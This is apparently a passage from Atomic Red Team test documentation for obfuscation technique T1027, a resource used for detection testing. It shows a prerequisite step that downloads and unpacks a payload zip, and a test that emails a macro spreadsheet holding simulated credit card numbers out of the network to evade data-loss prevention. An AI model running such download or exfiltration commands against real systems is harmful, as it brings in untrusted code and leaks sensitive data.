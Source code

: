 ##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "#{url_path}" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1027.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\T1027.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\" -Force
```

<br/>
<br/>

## Atomic Test #5 - DLP Evasion via Sensitive Data in VBA Macro over email

Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using email.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.

**Supported Platforms:** Windows

**auto_generated_guid:** 129edb75-d7b8-42cd-a8ba-1f3db64ec4ad

#### Inputs:

| Name        | Description            | Type   | Default Value                                                 |
| ----------- | ---------------------- | ------ | ------------------------------------------------------------- |
| input_file  | Path of the XLSM file  | path   | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm |
| sender      | sender email           | string | test@corp.com                                                 |
| receiver    | receiver email         | string | test@corp.com                                                 |
| smtp_server | SMTP Server IP Address | string | 127.0.0.1                                                     |

#### Attack Commands: Run with `powershell`!

```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments "#{input_file}" -SmtpServer #{smtp_server}
```

<br/>
<br/>

## Atomic Test #6 - DLP Evasion via Sensitive Data in VBA Macro over HTTP
